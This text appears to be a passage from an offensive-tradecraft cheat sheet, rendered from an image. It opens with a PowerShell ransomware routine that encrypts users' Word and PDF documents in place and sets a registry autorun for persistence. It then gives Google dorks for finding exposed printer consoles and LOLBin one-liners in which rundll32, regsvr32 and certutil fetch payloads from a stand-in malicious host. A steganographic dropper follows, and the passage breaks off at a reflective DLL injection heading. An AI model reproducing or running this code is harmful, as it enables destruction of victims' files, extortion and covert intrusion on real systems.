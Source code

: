 ```powershell
$files = Get-ChildItem "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Step 7: Persistence (registry-based PowerShell autorun)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
````

---

## Reconnaissance & LOLBins

### Google Dorking Examples

```text
inurl:"/hp/device/this.LCDispatcher"
intitle:"Web Image Monitor"
inurl:"/printers/"
intitle:"Konica Minolta"
inurl:"/printer/main.html"
intitle:"PaperCut MF"
```

### Living Off the Land Binaries (LOLBins)

```cmd
rundll32.exe \\192.168.X.X\share\payload.dll,ReflectEntry
regsvr32.exe /s /n /u /i:http://malicious.local/script.sct scrobj.dll
certutil.exe -urlcache -split -f http://malicious.local/dropper.b64 drop.b64
```

---

## Advanced Tradecraft

### Steganographic File Dropper

```cmd
copy /b clean.jpg + encrypted.7z clean.jpg
certutil -decode clean.jpg payload.7z
7z x payload.7z -oC:\Temp
```

### Reflective DLL Injection
